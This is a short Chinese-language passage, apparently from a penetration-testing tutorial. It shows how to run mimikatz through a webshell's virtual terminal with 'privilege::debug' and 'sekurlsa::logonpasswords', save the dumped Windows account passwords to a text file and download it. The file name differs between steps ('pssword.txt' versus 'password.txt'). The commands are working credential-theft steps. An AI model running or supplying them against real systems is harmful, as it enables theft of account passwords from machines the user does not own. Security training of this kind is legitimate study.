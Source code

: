    提权：`privilege::debug`

   输出系统账号密码：`sekurlsa::logonpasswords`

2. 右键 `shell`，选择虚拟终端，执行命令：`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt`，执行 `mimikatz`，提权并获取系统账号密码，最后导出到 `txt` 文本上

![](../.gitbook/assets/mk-2020-03-17-21-37-27.png)

1. 在文件管理中可以看到 `password.txt` 文件

![](../.gitbook/assets/mk-2020-03-17-21-37-37.png)

1. 可以下载或者双击打开查看，成功获取系统账号密码
